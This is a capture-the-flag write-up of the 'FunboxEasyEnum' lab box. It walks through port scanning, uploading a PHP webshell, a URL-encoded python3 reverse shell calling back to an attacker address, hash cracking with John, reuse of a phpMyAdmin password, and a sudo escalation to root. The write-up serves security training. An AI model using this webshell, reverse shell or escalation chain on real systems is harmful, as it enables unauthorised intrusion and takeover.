 # PG Play - FunboxEasyEnum

#### Ip: 10.129.30.102
#### Name: FunboxEasyEnum
#### Difficulty: Easy
#### Community Rating: Intermediate

----------------------------------------------------------------------

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/PG/Play/FunboxEasyEnum]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 192.168.182.132
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-10-22 14:27 CDT
Nmap scan report for 192.168.182.132
Host is up (0.076s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9c52325b8bf638c77fa1b704854954f3 (RSA)
|   256 d6135606153624ad655e7aa18ce564f4 (ECDSA)
|_  256 1ba9f35ad05183183a23ddc4a9be59f0 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.91 seconds                                                          
```

SCanning for idrectories we find `/mini.php`

![pg_fbee_dirs.png](../assets/funboxeasyenum_assets/pg_fbee_dirs.png)

![pg_fbee_mini.png](../assets/funboxeasyenum_assets/pg_fbee_mini.png)

We can upload a simple webshell:

```php
<?php system($_GET["cmd"]); ?>
```

![pg_fbee_cmd.png](../assets/funboxeasyenum_assets/pg_fbee_cmd.png)

And confirm execution

![pg_fbee_id.png](../assets/funboxeasyenum_assets/pg_fbee_id.png)

Lets issues a python3 reverse shell one liner:

```
http://192.168.182.132/cmd.php?cmd=python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22192.168.45.202%22%2C443%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22%2Fbin%2Fbash%22%29%27
```

An we catch a shell back as www-data:

```
┌──(ryan㉿kali)-[~/PG/Play/FunboxEasyEnum]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [192.168.45.202] from (UNKNOWN) [192.168.182.132] 56982
www-data@funbox7:/var/www/html$ whoami 
whoami
www-data
www-data@funbox7:/var/www/html$ hostname
hostname
funbox7
```

We can then grab the loacl.txt flag in `/var/www`

![pg_fbee_local.png](../assets/funboxeasyenum_assets/pg_fbee_local.png)

### Privilege Escalation

Loading linpeas we find tha password hash for user oracle, which we can crack with John:

```
╔══════════╣ Users with console
goat:x:1003:1003:,,,:/home/goat:/bin/bash
harry:x:1001:1001:,,,:/home/harry:/bin/bash
karla:x:1000:1000:karla:/home/karla:/bin/bash
lissy:x:1005:1005::/home/lissy:/bin/sh
oracle:$1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0:1004:1004:,,,:/home/oracle:/bin/bash
root:x:0:0:root:/root:/bin/bash
sally:x:1002:1002:,,,:/home/sally:/bin/bash
```

```
┌──(ryan㉿kali)-[~/PG/Play/FunboxEasyEnum]
└─$ cat >> hash                                
$1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0
^C
                                                                                                                             
┌──(ryan㉿kali)-[~/PG/Play/FunboxEasyEnum]
└─$ john hash /usr/share/wordlists/rockyou.txt 
<SNIP>
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 ASIMD 4x2])
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
hiphop           (?)  
```

Yet nothing came of being user oracle.

Going back to my original linpeas output we find a DB cred:

```
══════════╣ Searching passwords in config PHP files
/etc/phpmyadmin/config-db.php:$dbpass='tgbzhnujm!';
/etc/phpmyadmin/config-db.php:$dbuser='phpmyadmin';
```

I test for password reuse and see that user karla is also using this password:

```
oracle@funbox7:/home$ su karla
su karla
Password: tgbzhnujm!

To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

karla@funbox7:/home$ whoami
whoami
karla
```

Running `sudo -l` we see that karla can run anything she wants as root:

```
karla@funbox7:/home$ sudo -l
sudo -l
[sudo] password for karla: tgbzhnujm!

Matching Defaults entries for karla on funbox7:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User karla may run the following commands on funbox7:
    (ALL : ALL) ALL
```

So we can run:

```
karla@funbox7:/home$ sudo su -
sudo su -
root@funbox7:~# whoami
whoami
root
```

And grab the final flag:

![pg_fbee_root.png](../assets/funboxeasyenum_assets/pg_fbee_root.png)

Thanks for following along!

-Ryan

--------------------------------------------
